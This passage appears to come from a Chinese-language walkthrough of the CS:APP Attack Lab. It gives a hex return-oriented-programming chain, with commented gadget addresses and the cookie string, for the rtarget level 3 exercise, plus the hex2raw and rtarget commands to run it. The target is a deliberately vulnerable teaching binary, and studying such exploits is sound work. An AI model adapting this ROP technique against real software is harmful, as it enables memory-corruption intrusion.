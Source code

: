 所以我们可以创建一个文件`ROP-L3.txt`，保存以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* match 40 */
ad 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
c5 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
ab 19 40 00 00 00 00 00 /* gadget 3 : popq %rax */
48 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* gadget 4: movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* gadget 5: movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* gadget 6: movl %ecx, %esi */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* gadget 7: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* touch 3 */
35 39 62 39 39 37 66 61 00 /* string */
```

最后运行命令`./hex2raw < ROP-L3.txt > ROP-L3-raw.txt`将其转化为字符串，然后运行`./rtarget -q < ROP-L3-raw.txt`

![img](https://pic3.zhimg.com/80/v2-224cc9f170da1e1565156d98f68d18b2_720w.jpg)